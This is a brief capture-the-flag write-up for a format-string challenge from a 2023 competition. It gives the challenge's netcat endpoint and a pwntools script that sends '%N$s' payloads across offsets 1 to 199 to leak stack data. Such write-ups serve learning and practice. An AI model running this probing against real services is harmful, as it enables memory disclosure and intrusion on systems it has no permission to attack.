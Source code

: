 ```yaml
---
hide:
  - tags
draft: true
authors:
  - gr007
date: 2023-06-19
categories:
  - rev
tags:
  - pwn
  - coderush
  - '2023'
comments: true
---
```


# format_string ftw

## Description

No one should see what I have in stack! Its only mine!

`nc 139.59.0.163 7777`

>Author: `peace_ranger`

## Solution

We are only given a connection information. we can connect to this via netcat. as this is a black box challenge where the clues are given in the challenge name and description, nothing else need to be said. The following exploit should work just fine:

```python
#!/usr/bin/env python

from pwn import *


for i in range(1,200):
    p = remote("139.59.0.163",7777)
    x = f'%{i}$s'
    p.recvline()
    p.sendline(bytes(x,"UTF-8"))
    print(p.recvline())

```
